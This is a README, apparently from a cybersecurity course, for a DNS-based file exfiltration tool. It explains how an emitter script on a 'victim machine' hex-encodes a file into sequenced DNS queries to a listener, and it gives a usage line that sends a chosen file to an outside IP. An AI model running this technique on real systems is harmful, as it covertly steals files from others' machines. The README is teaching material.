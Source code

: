 # DNS Extraction

The objective is to build an extractor using the DNS protocol.
The listener is built using go, see the root README to build it

## Let's run it !
The [emitter script](https://github.com/Anthony-Jhoiro/cours-cyber-extractor/blob/main/dns/emiter/emiter.sh) needs to be sent to the target machine. 
It doesn't matter how.

Run the listener with `./dns-listener`. It requires `sudo` privileges. 

Run the emitter on the victim machine and specify the ip of the listener as first argument and the file to extract as the second. 
(ex: `./emitter.sh 10.1.1.15 /path/to/my/file`)

Then you should see logs arrive in the listener process. When it says `Recieved File`, the file has been received. 
That's mean that the file has been completely extracted and is now located in the `results` directory with a `.raw` 
(warning, if the listener was ran with administrator privileges, you will need to change the access on the file !).

## How it works

### The emitter

The emitter installed of the victim machine will send repetitive dns requests for A record on the host machine.
Each request will have the following format :
![A record structure](a_record_structure.png)

Each A record is split into 3 sections.

1. The payload. The par t of the file which is sent in this message in hexadecimal.
2. The request index. There is no delay between each request so to ensure the order, we add an index to each message
3. The identifier of the file. The identifier is generated to favor uniqueness

Whe the whole file is sent, a stop message is sent with the same id as the package, 0 as the request index
and `STOP` as the payload.

### The listener

The listener listen for any icmp request. For non Stop message, it save the file in the `results` directory. It keeps
one file per request.
Whe the stop request is received. All the files are read and concatenate into a single file that will be located in
the `results` directory.

*Theoretically*, any number of file can be received at the same time as long as they can be handled by the listener.




